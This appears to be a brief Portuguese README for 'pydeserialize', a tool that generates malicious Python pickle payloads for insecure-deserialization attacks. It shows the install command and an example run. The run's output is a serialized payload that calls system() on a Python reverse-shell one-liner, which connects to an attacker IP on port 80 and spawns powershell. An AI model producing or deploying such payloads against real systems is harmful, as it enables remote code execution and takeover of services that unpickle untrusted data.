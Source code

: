 # Instalação

pydeserialize requer **python3** e para baixá-lo só usar:

```sh
pip3 install pydeserialize
```

# Executando pydeserialize

```console
pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell

                 ,--.                            ,--.        ,--.,--.
 ,---.,--. ,--.,-|  | ,---.  ,---.  ,---. ,--.--.`--' ,--,--.|  |`--',-----. ,---.
| .-. |\  '  /' .-. || .-. :(  .-' | .-. :|  .--',--.' ,-.  ||  |,--.`-.  / | .-. :
| '-' ' \   ' \ `-' |\   --..-'  `)\   --.|  |   |  |\ '-'  ||  ||  | /  `-.\   --.
|  |-'.-'  /   `---'  `----'`----'  `----'`--'   `--' `--`--'`--'`--'`-----' `----'
`--'  `---'
     v0.0.1 - @joaoviictorti

b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>